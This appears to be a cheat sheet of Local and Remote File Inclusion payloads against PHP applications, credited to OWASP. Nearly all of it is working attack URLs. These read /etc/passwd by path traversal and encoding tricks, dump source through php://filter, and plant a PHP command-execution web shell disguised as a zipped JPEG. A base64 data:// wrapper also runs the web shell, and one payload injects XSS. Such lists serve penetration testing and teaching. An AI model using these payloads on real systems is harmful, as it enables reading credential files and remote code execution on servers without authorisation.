 # Local/Remote File Inclusion
The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application.

## Exploit

Basic LFI (null byte and double encoding)
```
http://example.com/index.php?page=etc/passwd
http://example.com/index.php?page=etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
```

LFI Wrapper rot13 and base64
```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
```

LFI Wrapper zip
```python
os.system("echo \"</pre><?php system($_GET['cmd']); ?></pre>\" > payload.php; zip payload.zip payload.php; mv payload.zip shell.jpg; rm payload.php")
				
http://example.com/index.php?page=zip://shell.jpg%23payload.php
```


RFI Wrapper with "<?php system($_GET['cmd']);echo 'Shell done !'; ?>" payload
```
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```


XSS via RFI/LFI with "<<svg<>svg onload=alert(1)>onload=alert(1)>" payload
```
http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+
```

## Thanks to
* https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion